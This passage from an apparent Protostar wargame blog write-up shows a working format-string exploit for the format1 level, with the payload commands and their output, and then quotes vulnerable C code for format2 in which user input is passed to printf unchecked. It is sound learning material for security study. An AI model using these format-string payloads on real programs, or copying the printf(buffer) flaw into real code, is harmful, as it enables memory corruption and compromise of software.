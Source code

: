 I had banged my head against the wall a fair bit before doing so.

I got stuck and looked up a solution for this level.  I was around 10
bytes off & couldn't figure out why I was failing before I gave up.

My last command before submitting to fatigue:

~~~
(gdb) start `python -c "print('\x38\x96\x04\x08___'+'%08x_'*142+'%n')"`
~~~

Which is still not really a solution so much as a ineffective way of
doing things; Instead of carpet-bombing argv with `'%08x'*142`,
`%142$n` would've worked equally bad - but somewhat more elegantly.

Either way, here's the solution:

~~~
$ ./format1 `python -c 'print "\x38\x96\x04\x08___%130\$n"'`
8___you have modified the target :)
~~~

Those of you playing along at home, those three underscores are simply
used for alignment.

So there you have it; challenge is solved & I'm somewhat wiser as to
how these format exploits work. This challenge beat me up pretty bad,
but I learned some useful and hopefully I'll be able to solve the format2.

#### Shout-outs
* [@_iphelix](https://twitter.com/_iphelix) for his [great write-up](https://thesprawl.org/research/exploit-exercises-protostar-format/#format-1) on this challenge.

## [format2](https://exploit-exercises.com/protostar/format2)

* * * 

>###About
>
>This level moves on from format1 and shows how specific values can be written in memory.

You guessed it, here's some code that's provided along with the description.

{% highlight c %}
void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}
{% endhighlight %}
